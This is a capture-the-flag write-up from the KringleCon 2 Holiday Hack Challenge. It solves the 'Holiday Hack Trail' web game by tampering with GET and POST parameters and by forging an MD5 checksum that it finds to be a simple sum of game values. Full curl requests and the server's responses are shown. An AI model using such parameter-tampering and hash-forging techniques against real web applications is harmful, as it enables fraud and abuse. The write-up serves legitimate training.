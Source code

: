 # 2. Secondary Objectives
## 2.6. The Holiday Hack Trail
### 2.6.1. Description
I don’t know what happened here but I think part of the conversation with Minty Candycane is missing, speaking with her:
> One is about web application penetration testing. Good luck, and don't get dysentery!

The Holiday Hack Trail Initial page:\
![The Holiday Hack Trail Initial page](https://github.com/LamonatoAndrea/KringleCon2/blob/master/02%20-%20Secondary%20Objectives/06%20-%20The%20Holiday%20Hack%20Trail/The%20Holiday%20Hack%20Trail%20Initial%20page.png)

Store page:\
![The Holiday Hack Trail Store page](https://github.com/LamonatoAndrea/KringleCon2/blob/master/02%20-%20Secondary%20Objectives/06%20-%20The%20Holiday%20Hack%20Trail/The%20Holiday%20Hack%20Trail%20Store%20page.png)
	
### 2.6.2. Solution
#### 2.6.2.1. Easy
The parameters are passed via the URL with GET requests, it is possible to alter the distance parameter to 8000 to reach the end. The altered URL will look similar to:
hhc://trail.hhc/trail/?difficulty=0&**distance=8000**&money=5000&pace=0&curmonth=7&curday=1&reindeer=2&runners=2&ammo=100&meds=20&food=400&name0=John&health0=100&cond0=0&causeofdeath0=&deathday0=0&deathmonth0=0&name1=Sally&health1=100&cond1=0&causeofdeath1=&deathday1=0&deathmonth1=0&name2=Anna&health2=100&cond2=0&causeofdeath2=&deathday2=0&deathmonth2=0&name3=Kendra&health3=100&cond3=0&causeofdeath3=&deathday3=0&deathmonth3=0

At this point the interface will show that the distance remaining is 0 as per picture below:\
![easy last step](https://github.com/LamonatoAndrea/KringleCon2/blob/master/02%20-%20Secondary%20Objectives/06%20-%20The%20Holiday%20Hack%20Trail/easy%20last%20step.png)

Pressing the “GO” button again will take to the winning page:\
![easy winning page](https://github.com/LamonatoAndrea/KringleCon2/blob/master/02%20-%20Secondary%20Objectives/06%20-%20The%20Holiday%20Hack%20Trail/easy%20winning%20page.png)

#### 2.6.2.2. Medium
Here the parameters are sent via POST request, but are injectable in the same manner as the Easy difficulty level. Below the output obtained by sending the altered request with curl:
curl 'https://trail.elfu.org/trail/' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Origin: https://trail.elfu.org' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36' -H 'Sec-Fetch-User: ?1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-Mode: nested-navigate' -H 'Referer: https://trail.elfu.org/trail/' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,it-IT;q=0.8,it;q=0.7' -H 'Cookie: trail-mix-cookie=7f7127a10e92b3a5e77ad1db87cf9ba532463bd4' --data 'pace=2&playerid=JebediahSpringfield&action=go&difficulty=1&money=3000&**distance=8000**&curmonth=8&curday=2&name0=Chris&health0=100&cond0=0&cause0=&deathday0=0&deathmonth0=0&name1=Emmanuel&health1=100&cond1=0&cause1=&deathday1=0&deathmonth1=0&name2=Chloe&health2=100&cond2=0&cause2=&deathday2=0&deathmonth2=0&name3=Jen&health3=100&cond3=0&cause3=&deathday3=0&deathmonth3=0&reindeer=2&runners=2&ammo=50&meds=10&food=184&hash=HASH' --compressed

This resource can be found at <a href='https://trail.elfu.org/fin/?reason=victory&amp;name0=Chris&amp;death0=notdeadyet&amp;name1=Emmanuel&amp;death1=notdeadyet&amp;name2=Chloe&amp;death2=notdeadyet&amp;name3=Jen&amp;death3=notdeadyet&amp;curday=3&amp;curmonth=8&amp;money=3000&amp;reindeer=2&amp;alivecount=4&amp;difficulty=1&amp;hash=91ac54832b5d59c195e196a3ae959e6b&amp;victorytoken={ hash:"f3e41a22416c2397460403fa82d40307f4379da95d41d5e366b55a1e775c5d41", resourceId: "JebediahSpringfield"}'>https://trail.elfu.org/fin/?reason=victory&amp;name0=Chris&amp;death0=notdeadyet&amp;name1=Emmanuel&amp;death1=notdeadyet&amp;name2=Chloe&amp;death2=notdeadyet&amp;name3=Jen&amp;death3=notdeadyet&amp;curday=3&amp;curmonth=8&amp;money=3000&amp;reindeer=2&amp;alivecount=4&amp;difficulty=1&amp;hash=91ac54832b5d59c195e196a3ae959e6b&amp;victorytoken={ hash:"f3e41a22416c2397460403fa82d40307f4379da95d41d5e366b55a1e775c5d41", resourceId: "JebediahSpringfield"}</a>.

Visiting the URL mentioned in the response, below web page is shown:\
![medium winning page](https://github.com/LamonatoAndrea/KringleCon2/blob/master/02%20-%20Secondary%20Objectives/06%20-%20The%20Holiday%20Hack%20Trail/medium%20winning%20page.png)

#### 2.6.2.3. Hard
At hard level parameters are sent via POST requests and each contains an undocumented hash value. Considering that in the Easy level a verification hash was calculated from the number of points, I thought that this hash may have been a numeric value representing the current points acquired. The decrypt tool from md5online.org confirmed that this value is numeric but it was much lower than what I expected.

I noticed that the first “GO” request had always the hash of 1626, I thought that this value was a checksum made up of values in page and I tried to figure out which of these were involved. Checking the difference with a second “GO” request it was possible to identify the below list of parameters involved in the hash creation:
 * money
 * distance
 * curmonth
 * curday
 * reindeer
 * runners
 * ammo
 * meds
 * food

Below the output obtained by submitting a tampered “GO” request with a valid hash via curl:
curl 'https://trail.elfu.org/trail/' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Origin: https://trail.elfu.org' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36' -H 'Sec-Fetch-User: ?1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-Mode: nested-navigate' -H 'Referer: https://trail.elfu.org/trail/' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,it-IT;q=0.8,it;q=0.7' -H 'Cookie: trail-mix-cookie=e543662c928fc61549bbfe167729d528f7a270ea' --data 'pace=0&playerid=02554611-d73c-4881-baa7-9549350ec50b&action=go&difficulty=2&money=1500&**distance=8000**&curmonth=9&curday=1&name0=Sam&health0=100&cond0=0&cause0=&deathday0=0&deathmonth0=0&name1=Sally&health1=100&cond1=0&cause1=&deathday1=0&deathmonth1=0&name2=Joseph&health2=100&cond2=0&cause2=&deathday2=0&deathmonth2=0&name3=Evie&health3=100&cond3=0&cause3=&deathday3=0&deathmonth3=0&reindeer=2&runners=2&ammo=10&meds=2&food=100&**hash=649d45bf179296e31731adfd4df25588**' --compressed

This resource can be found at <a href='https://trail.elfu.org/fin/?reason=victory&amp;name0=Sam&amp;death0=notdeadyet&amp;name1=Sally&amp;death1=notdeadyet&amp;name2=Joseph&amp;death2=notdeadyet&amp;name3=Evie&amp;death3=notdeadyet&amp;curday=2&amp;curmonth=9&amp;money=1500&amp;reindeer=2&amp;alivecount=4&amp;difficulty=2&amp;hash=57ec46350ce6dbd9881127dd6d102cfb&amp;victorytoken={ hash:"4f112f9623bbac3e927d0c92be2fece33473bce3ed35383ae979c214d39fe43e", resourceId: "02554611-d73c-4881-baa7-9549350ec50b"}'>https://trail.elfu.org/fin/?reason=victory&amp;name0=Sam&amp;death0=notdeadyet&amp;name1=Sally&amp;death1=notdeadyet&amp;name2=Joseph&amp;death2=notdeadyet&amp;name3=Evie&amp;death3=notdeadyet&amp;curday=2&amp;curmonth=9&amp;money=1500&amp;reindeer=2&amp;alivecount=4&amp;difficulty=2&amp;hash=57ec46350ce6dbd9881127dd6d102cfb&amp;victorytoken={ hash:"4f112f9623bbac3e927d0c92be2fece33473bce3ed35383ae979c214d39fe43e", resourceId: "02554611-d73c-4881-baa7-9549350ec50b"}</a>.

Visiting the URL mentioned in the response, below web page is shown:\
![hard winning page](https://github.com/LamonatoAndrea/KringleCon2/blob/master/02%20-%20Secondary%20Objectives/06%20-%20The%20Holiday%20Hack%20Trail/hard%20winning%20page.png)

### 2.6.3. Afterwords
Speaking again with Minty Candycane:
>You made it - congrats! Have you played with the key grinder in my room? Check it out! It turns out: if you have a good image of a key, you can physically copy it. Maybe you'll see someone hopping around with a key here on campus. Sometimes you can find it in the Network tab of the browser console. Deviant has a great talk on it at this year's Con. He even has a collection of key bitting templates for common vendors like Kwikset, Schlage, and Yale.